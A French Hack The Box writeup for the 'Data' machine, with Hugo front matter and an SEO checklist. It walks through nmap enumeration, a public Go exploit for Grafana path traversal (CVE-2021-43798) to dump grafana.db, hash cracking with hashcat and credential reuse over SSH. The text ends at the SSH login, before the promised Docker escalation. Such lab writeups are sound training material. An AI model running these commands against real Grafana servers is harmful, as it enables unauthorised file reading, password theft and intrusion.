

---
# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md

# H1 SEO (via title, pas dans le markdown)
title: "Data — HTB Easy Writeup & Walkthrough"
linkTitle: "Data"
slug: "data"
date: 2026-01-23T16:04:09+01:00
#lastmod: 2026-01-23T16:04:09+01:00
draft: true

# --- PaperMod / navigation ---
summary: "Data (HTB Easy) — exploitation pas à pas de Grafana (CVE-2021-43798) jusqu’au root via Docker."
description: "Writeup de Data (HTB Easy) : énumération, exploitation de Grafana (CVE-2021-43798), extraction de credentials et escalade root via Docker, étape par étape."
tags: ["HTB-Easy", "Web", "Grafana", "Docker"]
categories: ["Mes writeups"]

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "Machine Data (HTB Easy) : exploitation de Grafana puis escalade via Docker, expliquée étape par étape."
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "Data"
  difficulty: "Easy"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","Web","Privilege Escalation"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l’image
#     - Décrit la machine + l’approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l’énumération à l’escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Data> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

Dans ce writeup, tu vas résoudre la machine Data sur Hack The Box (difficulté Easy), avec un walkthrough pas à pas centré sur Grafana. On avance étape par étape : énumération, exploitation de la CVE, récupération d’identifiants, puis escalade via Docker. L’idée n’est pas de lancer un exploit “à l’aveugle”, mais de comprendre ce que tu fais, pour pouvoir réutiliser la méthode sur d’autres machines.

Ce que tu vas faire :

- Identifier la surface exposée (SSH + Grafana).
- Exploiter Grafana (CVE-2021-43798) pour récupérer grafana.db.
- Craquer le hash et réutiliser les identifiants en SSH.
- Escalader via sudo docker exec  jusqu’au root de l’hôte.

---

## Énumérations

Dans un challenge **CTF Hack The Box**, tu commences **toujours** par une phase d’**énumération complète**.
C’est une étape incontournable : elle te permet d’identifier clairement ce que la machine expose avant toute tentative d’exploitation.

Concrètement, tu cherches à savoir quels **ports** sont ouverts, quels **services** sont accessibles, si une **application web** est présente, quels **répertoires** sont exposés et si des **sous-domaines ou vhosts** peuvent être exploités.

Pour réaliser cette énumération de manière structurée et reproductible, tu peux t’appuyer sur trois scripts :

- **** : identifie les ports ouverts et les services en écoute
- **** : énumère les répertoires et fichiers accessibles via le service web
- **** : détecte la présence éventuelle de sous-domaines et de vhosts

Tu retrouves ces outils dans la section **[Outils / Mes scripts](/mes-scripts/)**.
Pour garantir des résultats pertinents en contexte **CTF HTB**, tu utilises une **wordlist dédiée**, installée au préalable grâce au script ****.
Cette wordlist est conçue pour couvrir les technologies couramment rencontrées sur Hack The Box.

------

Avant de lancer les scans, vérifie que data.htb résout bien vers la cible. Sur HTB, ça passe généralement par une entrée dans /etc/hosts.

- Ajoute l’entrée `10.129.x.x data.htb` dans `/etc/hosts`.

```bash
sudo nano /etc/hosts
```

- Lance ensuite le script  pour obtenir une vue claire des ports et services exposés :


```bash
mon-nmap data.htb

# Résultats dans le répertoire scans_nmap/
#  - scans_nmap/full_tcp_scan.txt
#  - scans_nmap/aggressive_vuln_scan.txt
#  - scans_nmap/cms_vuln_scan.txt
#  - scans_nmap/udp_vuln_scan.txt
```


### Scan initial

Le scan initial TCP complet (scans_nmap/full_tcp_scan.txt) te révèle les ports ouverts suivants :

> Note : les IP et timestamps peuvent varier selon les resets HTB ; l’important ici est la surface exposée.

```bash
# Nmap 7.98 scan initiated Fri Jan 23 16:09:05 2026 as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/full_tcp_scan.txt data.htb
Nmap scan report for data.htb (10.129.234.47)
Host is up (0.045s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp

# Nmap done at Fri Jan 23 16:09:14 2026 -- 1 IP address (1 host up) scanned in 8.58 seconds
```

### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Voici le résultat (scans_nmap/aggressive_vuln_scan.txt) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour data.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"22,3000" --script="(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "data.htb"

# Nmap 7.98 scan initiated Fri Jan 23 16:09:14 2026 as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p22,3000 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/aggressive_vuln_scan_raw.txt data.htb
Nmap scan report for data.htb (10.129.234.47)
Host is up (0.015s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
3000/tcp open  http    Grafana http
|_http-trane-info: Problem with XML parsing of /evox/about
| http-vuln-cve2010-0738: 
|_  /jmx-console/: Authentication was not required
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   54.81 ms 10.10.16.1
2   7.22 ms  data.htb (10.129.234.47)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 23 16:09:26 2026 -- 1 IP address (1 host up) scanned in 11.57 seconds

```


### Scan ciblé CMS

Vient ensuite le scan ciblé CMS (`scans_nmap/cms_vuln_scan.txt`).

```bash
# Nmap 7.98 scan initiated Fri Jan 23 16:09:26 2026 as: /usr/lib/nmap/nmap --privileged -Pn -sV -p22,3000 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/cms_vuln_scan.txt data.htb
Nmap scan report for data.htb (10.129.234.47)
Host is up (0.015s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
3000/tcp open  http    Grafana http
|_http-config-backup: ERROR: Script execution failed (use -d to debug)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: Grafana
|_Requested resource was /login
|_http-trane-info: Problem with XML parsing of /evox/about
| http-headers: 
|   Cache-Control: no-cache
|   Content-Type: text/html; charset=UTF-8
|   Expires: -1
|   Pragma: no-cache
|   X-Content-Type-Options: nosniff
|   X-Frame-Options: deny
|   X-Xss-Protection: 1; mode=block
|   Date: Fri, 23 Jan 2026 15:09:22 GMT
|   Connection: close
|   
|_  (Request type: HEAD)
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1
|     /public/build/
|       css: 1; js: 3
|     /public/fonts/roboto/
|       woff2: 1
|     /public/img/
|       png: 2; svg: 1
|   Longest directory structure:
|     Depth: 3
|     Dir: /public/fonts/roboto/
|   Total files found (by extension):
|_    Other: 1; css: 1; js: 3; png: 2; svg: 1; woff2: 1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 23 16:10:03 2026 -- 1 IP address (1 host up) scanned in 37.33 seconds

```


### Scan UDP rapide

Le scan UDP rapide (`scans_nmap/udp_vuln_scan.txt`).

```bash
# Nmap 7.98 scan initiated Fri Jan 23 16:10:03 2026 as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/udp_vuln_scan.txt data.htb
Nmap scan report for data.htb (10.129.234.47)
Host is up (0.013s latency).

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   closed        netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   closed        snmptrap
445/udp   open|filtered microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp closed        unknown

# Nmap done at Fri Jan 23 16:10:12 2026 -- 1 IP address (1 host up) scanned in 8.48 seconds

```


### Énumération des chemins web avec `mon-recoweb`

Pour la partie découverte de chemins web, utilise le script dédié 

```bash
mon-recoweb data.htb

# Résultats dans le répertoire scans_recoweb/
#  - scans_recoweb/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/dirb.log
#  - scans_recoweb/dirb_hits.txt
#  - scans_recoweb/ffuf_dirs.txt
#  - scans_recoweb/ffuf_dirs_hits.txt
#  - scans_recoweb/ffuf_files.txt
#  - scans_recoweb/ffuf_files_hits.txt
#  - scans_recoweb/ffuf_dirs.json
#  - scans_recoweb/ffuf_files.json

```

Le fichier **`RESULTS_SUMMARY.txt`** te permet d’identifier rapidement les chemins intéressants sans parcourir tous les logs.

```bash
$ mon-recoweb data.htb
Script: mon-recoweb v2.1.0
[*] Test d'accessibilité de la cible
[!] Aucune réponse TCP immédiate depuis data.htb.
[!] L'IP de data.htb est peut être incorrecte (reset HTB ?).
[!] Vérifie l'IP dans l'interface HTB
[!] et /etc/hosts si tu utilises un nom de domaine.

[!] Arrêt du script.
```

Ici, mon-recoweb ne renvoie rien car il vérifie d’abord HTTP/HTTPS sur 80/443, et la machine n’expose le web que sur 3000 (Grafana). Dans ce cas, inutile d’insister sur du brute-force : la priorité est d’identifier la version Grafana et les CVE associées.

### Recherche de vhosts avec `mon-subdomains`

Enfin, teste rapidement la présence de vhosts  avec  le script 

```bash
mon-subdomains data.htb

# Résultats dans le répertoire scans_subdomains/
#  - scans_subdomains/scan_vhosts.txt
```

Si aucun vhost distinct n’est détecté, ce fichier te permet malgré tout de confirmer que le fuzzing n’a rien révélé d’exploitable.

```bash
┌──(kali㉿kali)-[/mnt/kvm-md0/HTB/data]
└─$ mon-subdomains data.htb   
[✓] Domaine : data.htb
[✓] Fichier de résultats : scans_subdomains/scan_vhosts.txt
[✓] Mode : LARGE  (wordlist: /tmp/mon-subdomains_data.htb_wl.rg94Kr)
[*] Master : /usr/share/wordlists/htb-dns-vh-5000.txt
[✓] IP détectée : 10.129.234.47
[!] Aucune réponse TCP depuis data.htb sur les ports 80 et 443.
[!] L'IP de data.htb est peut-être incorrecte (reset HTB ?).
[!] Vérifie /etc/hosts si tu utilises un nom de domaine.
[!] Le service HTTP est peut-être exposé sur un autre port (ex: 8080).
[!] Si c'est le cas tu peux continuer le scan.

Continuer quand même le scan ? [o/N] o
[*] Poursuite du scan malgré l'absence de réponse TCP (80/443).
[*] Nmap : détection des services web (HTTP/HTTPS)

...

===== Résultats mon-subdomains (data.htb) =====
=== mon-subdomains data.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.0
Date         : 2026-01-23 18:06:54
Domaine      : data.htb
IP           : 10.129.234.47
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 0
  - (aucun)

```


Même en l’absence de toute réponse sur les ports HTTP standards 80 et 443, le scan des sous-domaines et des virtual hosts est volontairement exécuté jusqu’à son terme à l’aide de `mon-subdomains`. Cette démarche permet de vérifier explicitement qu’aucun accès web alternatif n’a été négligé. Le résultat est sans ambiguïté : aucun vhost ni sous-domaine exploitable n’est identifié. Cette étape valide donc l’exclusion complète de la piste DNS/vhosts et confirme que la surface d’attaque est volontairement restreinte.

---

## Exploitation – Prise pied (Foothold)

Lorsque tu accèdes à l’interface web Grafana via le port 3000, la page de connexion s’affiche, permettant de confirmer visuellement la version **Grafana v8.0.0** exposée par la machine.



En analysant les scans réalisés lors de la phase d’énumération, tu constates qu’un seul service mérite une attention particulière : **Grafana v8.0.0**, accessible via une interface web sur le port 3000.
 C’est donc sur cette application, identifiée comme la surface d’attaque principale, que va se focaliser toute la phase d’exploitation.

Tu poursuis l’analyse par une recherche ciblée de vulnérabilités connues (**CVE**) affectant **Grafana v8.0.0** (*Grafana 8.0.0 CVE PoC*), qui met en évidence la vulnérabilité critique **CVE-2021-43798**.

Tu identifies ensuite un PoC public pour CVE-2021-43798 (Grafana 8.x path traversal). Tu peux t’appuyer sur le dépôt de [taythebot](https://github.com/taythebot/CVE-2021-43798), parce que les options de dump SQLite sont bien expliquées.

### Méthode employée

L’exploitation repose sur une succession d’étapes logiques et progressives, telles qu’on les rencontre classiquement dans un **CTF Grafana** :

1. **Identification du service exposé**
    Tu identifies le service web accessible comme étant **Grafana**, et tu constates que la version déployée est **vulnérable à la CVE-2021-43798**.
2. **Exploitation de la vulnérabilité de path traversal**
    Cette vulnérabilité permet une **lecture arbitraire de fichiers** sur le système cible par un mécanisme de **path traversal**, en contournant les restrictions applicatives mises en place par Grafana.
3. **Accès à la base interne Grafana**
    Tu exploites ensuite cette capacité de lecture pour accéder au fichier `grafana.db`, base **SQLite** interne de Grafana, utilisée pour stocker les données applicatives et les comptes utilisateurs.
4. **Extraction et exploitation des informations sensibles**
    L’analyse de la base SQLite te permet d’extraire les **hashes de mots de passe** des utilisateurs Grafana. Ces **password hashes** sont alors attaqués hors-ligne afin d’obtenir des **identifiants réutilisables**, qui servent de point d’entrée pour la poursuite de l’exploitation.

### grafana.db

L’application concrète de la méthode d’exploitation s’effectue selon les étapes techniques suivantes :

1. **Récupération du proof-of-concept**
    Le proof-of-concept associé à la vulnérabilité **CVE-2021-43798** est récupéré depuis le dépôt GitHub de référence. L’exploit est implémenté en **langage Go** et fourni sous la forme d’un fichier `exploit.go`, conçu pour automatiser l’exploitation du path traversal et la lecture de fichiers arbitraires sur une instance Grafana vulnérable.
    
    Dump sqlite3 database, commande générique :
    
    ```bash
    go run exploit.go -target <target> -dump-database
    ```
    
    ​    

2. **Exécution de l’exploit**
    L’exploit est simplement exécuté conformément aux indications fournies dans le **README du dépôt GitHub**, à l’aide de `go run`, afin de déclencher le **dump de la base de données SQLite** exposée par l’instance Grafana cible.

   

   ```bash
   go run exploit.go -target http://data.htb:3000 -dump-database -output grafana.db
   
   CVE-2021-43798 - Grafana 8.x Path Traversal (Pre-Auth)
   Made by Tay (https://github.com/taythebot)
   
   [INFO] Exploiting target http://data.htb:3000
   [INFO] Successfully exploited target http://data.htb:3000
   SQLite format ...
   
   [...]
   
   [INFO] Succesfully saved output to file grafana.db
   ```

> **Note**
>  Si l’exécution de `go run` échoue, cela signifie que le langage **Go** n’est pas installé sur le système. Il suffit alors d’installer Go via le gestionnaire de paquets avant de relancer l’exploit.
>
> ```bash
> sudo apt update && sudo apt install -y golang-go
> ```
>
> vérification après installation :
>
> ```bash
> go version                                                                            
> go version go1.24.9 linux/amd64
> ```


La base `grafana.db` constitue ensuite le point de départ de l’analyse post-exploitation, dédiée à l’identification des comptes utilisateurs et à l’extraction des **hashes de mots de passe**.

### Exploitation des mots de passe Grafana

Tu analyses la table `user` de la base `grafana.db` à l’aide d’un outil **SQLite** afin d’extraire les champs `password` et `salt`. Ces **hashes Grafana** sont ensuite convertis avec **grafana2hashcat**, puis attaqués hors-ligne à l’aide de **hashcat** pour tenter d’obtenir les mots de passe en clair.

Voici **la chaîne complète de commandes en ligne de commande**, du fichier `grafana.db` jusqu’aux **mots de passe en clair**, dans un enchaînement logique et reproductible.

#### Ouvre la base SQLite et identifier la table `user`

```bash
sqlite3 grafana.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.

sqlite> .tables
alert                       login_attempt             
alert_configuration         migration_log             
alert_instance              org                       
alert_notification          org_user                  
alert_notification_state    playlist                  
alert_rule                  playlist_item             
alert_rule_tag              plugin_setting            
alert_rule_version          preferences               
annotation                  quota                     
annotation_tag              server_lock               
api_key                     session                   
cache_data                  short_url                 
dashboard                   star                      
dashboard_acl               tag                       
dashboard_provisioning      team                      
dashboard_snapshot          team_member               
dashboard_tag               temp_user                 
dashboard_version           test_data                 
data_source                 user                      
library_element             user_auth                 
library_element_connection  user_auth_token      


sqlite> .schema user
CREATE TABLE `user` (
`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL
, `version` INTEGER NOT NULL
, `login` TEXT NOT NULL
, `email` TEXT NOT NULL
, `name` TEXT NULL
, `password` TEXT NULL
, `salt` TEXT NULL
, `rands` TEXT NULL
, `company` TEXT NULL
, `org_id` INTEGER NOT NULL
, `is_admin` INTEGER NOT NULL
, `email_verified` INTEGER NULL
, `theme` TEXT NULL
, `created` DATETIME NOT NULL
, `updated` DATETIME NOT NULL
, `help_flags1` INTEGER NOT NULL DEFAULT 0, `last_seen_at` DATETIME NULL, `is_disabled` INTEGER NOT NULL DEFAULT 0);
CREATE UNIQUE INDEX `UQE_user_login` ON `user` (`login`);
CREATE UNIQUE INDEX `UQE_user_email` ON `user` (`email`);
CREATE INDEX `IDX_user_login_email` ON `user` (`login`,`email`);
sqlite>
```

#### Extrais les hashes et les salts depuis la table `user`

Extraction minimale (hash + salt) :

```bash
sqlite3 grafana.db \
"select password || ',' || salt from user;" > grafana_hashes.txt
```

Vérification rapide :

```bash
head grafana_hashes.txt

7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8,YObSoLj55S
dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8,LCBhdtJWjl
                    
```

#### Télécharge `grafana2hashcat.py`

Depuis ton répertoire de travail :

```bash
wget https://raw.githubusercontent.com/iamaldi/grafana2hashcat/main/grafana2hashcat.py
```


#### Convertis les hashes Grafana au format hashcat

À l’aide de **grafana2hashcat** :

```bash
python3 grafana2hashcat.py grafana_hashes.txt -o hashcat_hashes.txt                   


[+] Grafana2Hashcat
[+] Reading Grafana hashes from:  grafana_hashes.txt
[+] Done! Read 2 hashes in total.
[+] Converting hashes...
[+] Converting hashes complete.
[+] Writing output to 'hashcat_hashes.txt' file.
[+] Now, you can run Hashcat with the following command, for example:

hashcat -m 10900 hashcat_hashes.txt --wordlist wordlist.txt

```

Contrôle du format obtenu :

```bash
head hashcat_hashes.txt

sha256:10000:WU9iU29MajU1Uw==:epGeS76Vz1EE7fNU7i5iNO+sHKH4FCaESiTE32ExMizzcjySFkthcunnP696TCBy+Pg=
sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=

```

(attendu : `sha256:10000:<salt_b64>:<hash_b64>`)

#### Associe chaque hash à son utilisateur Grafana

Afin de conserver une correspondance explicite entre chaque hash et son utilisateur, extraits séparément les logins depuis la table `user`, puis associe-les aux hashes convertis dans le même ordre.

```bash
sqlite3 -noheader -separator '|' grafana.db \
"select login, password, salt from user order by id;" > users_pw_salt.txt
paste -d' ' \
  <(cut -d'|' -f1 users_pw_salt.txt | sed 's/^/# user: /') \
  hashcat_hashes.txt \
> hashes_with_users.txt
```

Contrôle du format obtenu :

```bash
cat hashes_with_users.txt 
# user: admin sha256:10000:WU9iU29MajU1Uw==:epGeS76Vz1EE7fNU7i5iNO+sHKH4FCaESiTE32ExMizzcjySFkthcunnP696TCBy+Pg=
# user: boris sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=

```

Ce fichier te permettra de visualiser directement quel hash correspond à quel compte Grafana, sans interférer avec l’exécution de hashcat.

#### Lance l’attaque hors-ligne avec hashcat

Avec la wordlist rockyou :

```bash
hashcat -m 10900 hashcat_hashes.txt /usr/share/wordlists/rockyou.txt

hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-12th Gen Intel(R) Core(TM) i5-12600K, 6975/13950 MB (2048 MB allocatable), 4MCU

/home/kali/.local/share/hashcat/hashcat.dictstat2: Outdated header version, ignoring content
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

INFO: Removed hash found as potfile entry.

Host memory allocated for this attack: 513 MB (13946 MB free)

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 0 secs

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => q
                                                        
Session..........: hashcat
Status...........: Quit
Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
Hash.Target......: hashcat_hashes.txt
Time.Started.....: Mon Jan 26 16:40:43 2026 (2 mins, 5 secs)
Time.Estimated...: Mon Jan 26 17:28:49 2026 (46 mins, 1 sec)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:     4970 H/s (14.94ms) @ Accel:177 Loops:1000 Thr:1 Vec:8
Recovered........: 1/2 (50.00%) Digests (total), 0/2 (0.00%) Digests (new), 1/2 (50.00%) Salts
Progress.........: 1237584/28688770 (4.31%)
Rejected.........: 0/1237584 (0.00%)
Restore.Point....: 618792/14344385 (4.31%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:5000-6000
Candidate.Engine.: Device Generator
Candidates.#01...: maxie92 -> maryland22
Hardware.Mon.#01.: Util: 89%

Started: Mon Jan 26 16:40:19 2026
Stopped: Mon Jan 26 16:42:50 2026


```

Affiche les mots de passe trouvés :

```bash
hashcat -m 10900 hashcat_hashes.txt --show

sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=:beautiful1
```

Et compare avec le fichier hashes_with_users.txt 

```bash
cat hashes_with_users.txt                                           
# user: admin sha256:10000:WU9iU29MajU1Uw==:epGeS76Vz1EE7fNU7i5iNO+sHKH4FCaESiTE32ExMizzcjySFkthcunnP696TCBy+Pg=
# user: boris sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=
                       
```

**Ce qui te permet de dire que le mot de passe `beautiful1` est associé à l'utilisateur Grafana `boris`.**

------

### Connexion SSH

Tu peux réutiliser les identifiants **`boris:beautiful1`** pour tenter une **connexion SSH**, une situation **fréquente en CTF** où les mots de passe sont souvent partagés entre l’application web et le système.

Réflexe CTF : dès que tu obtiens un mot de passe via une appli web, teste-le en SSH si le service est ouvert.

```bash
ssh boris@data.htb
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
boris@data.htb's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-1103-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Tue Jan 27 08:46:04 UTC 2026

  System load:  0.0               Processes:              208
  Usage of /:   38.0% of 4.78GB   Users logged in:        0
  Memory usage: 14%               IP address for eth0:    10.129.234.47
  Swap usage:   0%                IP address for docker0: 172.17.0.1


Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

